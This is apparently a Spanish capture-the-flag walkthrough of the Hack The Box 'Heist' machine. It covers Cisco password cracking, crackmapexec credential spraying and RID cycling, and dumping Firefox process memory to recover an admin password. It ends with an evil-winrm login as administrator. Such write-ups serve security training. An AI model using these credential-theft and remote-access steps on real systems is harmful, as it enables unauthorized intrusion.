 # Heist ![Avatar](https://www.hackthebox.eu/storage/avatars/131dbaba68b169bd5ff59ac09420b09f_thumb.png)

## Initial Scan
```
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         Microsoft Windows RPC
```
## Enum 
### HTTP
En la landing page podemos ver un login y podemos logearnos como guest obteniendo asi acceso a una página de issues donde un usuario (**Hazard**) se queja de problemas con el router y postea la configuracion del mismo
```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```
Podemos obtener los siguientes combos de user pass aprovechando el uso del algoritmo usado para el tipo 7 de Cisco, usaremos un cracker [online](https://www.ifm.net.nz/cookbooks/passwordcracker.html)
```
rout3r:$uperP@ssword
admin:Q4)sJu\Y8qz*A3?d
```
Usando JTR vemos que la otra pass es:
```
stealth1agent
```
Hagamos un diccionario de passwords y otro de usuarios y tiremos de crackmapexec
```
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
```
Obtenemos unas credenciales validas pero parece que no valen para otros servicios, probemos a hacer RID cicling para encontrar otros usuarios
```
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```
Añadimos los nuevos usuarios a la lista y volvemos a tirar de cme
```
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
```
Con estas creds podemos acceder acceder a la maquina usando el evilwinrm

## Privesc
Encontramos un todo dentro de Chase
```
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```
Usando get-process podemos ver varios procesos de firefox activos , lo mismo haciendo un procdump podemos obtener unas credenciales validas , no se encuentra en la máquina asi que lo tenemos que subir nosotros.

Dumpeamos el proceso y nos pasamos el dmp a local usando la utilidad download de evil-winrm, grepeamos htb por el formato de los correos de la plataforma y encontramos la siguiente request
```
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
``` 
Asi que tenemos unas creds para la pagina web
```
admin@support.htb:4dD!5}x/re8]FBuZ
```
Probamos si nos valen para el evil-winrm
```
evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
```
Y finalmente soy admin
